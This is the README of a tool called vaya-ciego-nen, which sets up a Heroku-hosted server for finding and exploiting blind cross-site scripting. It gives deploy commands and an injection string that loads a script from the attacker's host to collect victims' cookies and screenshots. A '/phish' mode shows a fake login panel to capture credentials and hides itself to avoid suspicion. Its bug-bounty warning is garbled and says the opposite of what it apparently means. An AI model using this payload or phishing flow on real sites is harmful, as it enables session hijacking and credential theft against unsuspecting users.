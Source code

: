 # vaya-ciego-nen
**vaya-ciego-nen** is a tool that allows you to create your own server to detect, manage and exploit **Blind Cross-site scripting (XSS)** vulnerabilities.

## How does it work?
This webapp serves a malicious JavaScript payload that will execute if a XSS is present, retrieving cookies, a screenshot and more info. This info can be seen in a dashboard where you're able to manage all the triggers, which are stored in a PostgreSQL database.

## Usage
The project is oriented to be deployed in a **free** [heroku](heroku.com) instance, but the changes are minimum if you want to use the code in your own server.
You'll need to install [`heroku-cli`](https://devcenter.heroku.com/articles/heroku-cli) if you don't have it already. Then:
```
git clone https://github.com/hipotermia/vaya-ciego-nen
cd vaya-ciego-nen
heroku login
heroku create name_of_your_app
heroku addons:create heroku-postgresql:hobby-dev
```
Modify the file `config.py` with a username/password of your choice (used to access your dashboard) and change the domain for your *name_of_your_app.herokuapp.com*, and finally:
```
git push heroku master
```
That's it! Now you have your own dashboard in *https://name_of_your_app.herokuapp.com/dashboard* and you just have to use `"><script src="https://name_of_your_app.herokuapp.com"></script>` to find blind XSS.

## Not sure of which input triggered your payload?
Create different payloads for each input using `name_of_your_app.herokuapp.com/?extra` modifying the *extra* param and this will be visible on your dashboard to recognize it. You can use `/?email_input` for an email input for example.

## HttpOnly on the session cookie?
No worries, use `name_of_your_app.herokuapp.com/phish` in your payload and instead of collecting info, a fake login panel will appear in the victim's browser and if he enters its credentials their will be sent to your dashboard! A cookie will be set on the victim's browser to control the login panel just appears once to avoid suspicion.
> **Note:** Most bugbounties don't allow phishing attacks on their programs. Don't do this if you're 100% sure you're allowed.
